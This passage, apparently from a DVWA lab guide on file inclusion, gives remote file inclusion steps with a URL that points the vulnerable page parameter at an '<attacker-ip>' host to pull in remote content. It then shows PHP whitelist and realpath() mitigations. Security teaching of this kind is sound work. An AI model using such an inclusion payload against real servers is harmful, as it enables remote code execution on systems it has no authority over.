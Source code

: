 **RFI reproduction (lab only):**

1. Host a file `csrf.html` on an attacker-controlled webserver (e.g., `python3 -m http.server 80` in a directory containing `csrf.html`).
2. Use the vulnerable include parameter to point to your hosted file:

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://<attacker-ip>/csrf.html
```

3. If the app is vulnerable to RFI and PHP is configured to allow URL includes, the remote contents will be included/executed by the server.

**Note:** Modern PHP default configs disable `allow_url_include` and many default setups prevent remote code execution, but DVWA `low` may be permissive for learning.

---

## 6. Mitigations (secure coding and server hardening)

### A. Secure coding patterns (preferred)

1. **Never include user input directly.** Replace dynamic includes with a server-side whitelist mapping.

```php
<?php
// bad: include($_GET['page']);
// good: whitelist mapping
$pages = [
  'home' => '/var/www/html/DVWA/pages/home.php',
  'about' => '/var/www/html/DVWA/pages/about.php',
];
$key = isset($_GET['page']) ? $_GET['page'] : 'home';
if (array_key_exists($key, $pages)) {
    include $pages[$key];
} else {
    // 404 or safe default
    include $pages['home'];
}
?>
```

2. **Canonicalize & validate paths** before use (use `realpath()` and ensure the resolved path is within an allowed directory):

```php
<?php
$basedir = '/var/www/html/DVWA/pages/';
$requested = isset($_GET['page']) ? $_GET['page'] : 'home.php';
$full = $basedir . $requested;
$real = realpath($full);
if ($real !== false && strpos($real, $basedir) === 0) {
    include $real;
} else {
    // invalid request
}
?>
```
